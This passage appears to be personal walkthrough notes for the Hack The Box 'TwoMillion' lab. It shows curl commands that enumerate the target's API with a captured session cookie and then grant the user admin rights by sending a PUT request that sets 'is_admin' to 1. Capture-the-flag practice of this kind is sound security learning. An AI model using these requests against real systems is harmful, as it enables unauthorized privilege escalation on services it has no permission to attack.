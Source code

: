 - Here we see the page has been moved
- Using the cookie found when intercepting the request with burp, make another curl request up to the /user level
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -sv http://2million.htb/api/v1/user
```

- 301 Moved Permanently
![[Pasted image 20230903084711.png]]

- Go down one level to /v1...same reponse. Go down one more, to /api
- Success!!
![[Pasted image 20230903085517.png]]

- Return one level up
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -sv http://2million.htb/api/v1 | jq
```

![[Pasted image 20230903091017.png]]
- The API call to /api/v1 shows us the instructions for generating an invite code for a regular user, registering a new user and determining if the user is admin
- Make a curl request to /api/v1/admin/settings/update, but note the method change. PUT will be used instead of the POST like we've been using
```bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX PUT http://2million.htb | jq
```

- We get a 200 OK message, the page is accessible to us! However, look at the message we received at the end. The "Invalid content type", it's expecting a JSON type
- Run the command again but specify the JSON as the application/json type
![[Pasted image 20230903221646.png]]
- After running take a look at the message again, "Missing parameter: email"
- Input your email with the curl command
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX PUT http://2million.htb/api/v1/admin/settings/update -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb"}' | jq
```
![[Pasted image 20230903224712.png]]
- It's asking if we're the admin, so run another curl with this item set to true in the request
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX PUT http://2million.htb/api/v1/admin/settings/update -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":true}' | jq
```

You'll receive an error message stating "Variable is_admin needs to be either 0 or 1"...so, you know what to do...
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX PUT http://2million.htb/api/v1/admin/settings/update -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":1}' | jq
```
